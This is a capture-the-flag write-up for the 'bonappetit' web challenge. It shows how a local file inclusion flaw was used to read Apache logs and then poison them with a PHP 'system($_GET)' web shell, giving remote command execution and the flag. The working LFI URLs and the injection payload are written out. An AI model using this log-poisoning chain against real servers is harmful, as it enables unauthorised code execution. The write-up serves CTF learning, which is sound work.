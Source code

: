 Hello all  , after reading some write up , i notice that 90% of players solved this challenge with the simple and easy way 

using .htaccess file to find the flag file name and then read it using LFI was really to easy and fast 


But in our team always we look for hard way :D joking 

First we found that there is LFI vuln in the website which make us able to read any file in the server :

```
http://bonappetit.stillhackinganyway.nl/?page=LFI HERE
```

so here you can read all what you need to deal with this challenge 

the easy way is that you find the .htaccess file and then read the flag using the name mention in this file 

as we dont check this file we did my own solution and as i thin its the goal of this task

when you read the source of home page we see text : 

<!-- TODO: Check apache access and error log for errors -->

so we check the log files access.log but we dont find it , then check access.log.1 and we get it ,also log.sh file used to create the log file 


"output : All logs are saved in /var/www/html/logs/[client_ip].log, rotated after 10 entries."

```
http://bonappetit.stillhackinganyway.nl/?page=file:///var/log/apache2/access.log.1
http://bonappetit.stillhackinganyway.nl/log.sh

#!/bin/bash

while read -r
do
   HOST=$(echo $REPLY|awk '{ print $1 }')
   LOG=/var/www/html/logs/${HOST}.log
   touch ${LOG}

   # Check length
   LEN=$(cat ${LOG}| wc -l) 
   if [ ${LEN} -gt 10 ] 
   then
      > ${LOG}
   fi

   echo "${REPLY}" >> ${LOG}  2>&1
done

exit 0
```

then we just did simple log poisoning and run our command in the server 

```
GET /<?php system($_GET['a']);?>
```

then

```
bonappetit.stillhackinganyway.nl/?page=file:///var/www/html/logs/our_ip.log&a=ls
```

![pasted image at 2017_08_05 01_06 pm](https://user-images.githubusercontent.com/7364615/29022899-8bd968d0-7b6b-11e7-8f3e-c3a454d9fd65.png)


and finaly read the flag 

![envoye_le_5_8_2017_a_13_09_05](https://user-images.githubusercontent.com/7364615/29022986-dead8cf8-7b6b-11e7-877d-9d8d58bf6049.png)

flag{82d8173445ea865974fc0569c5c7cf7f}
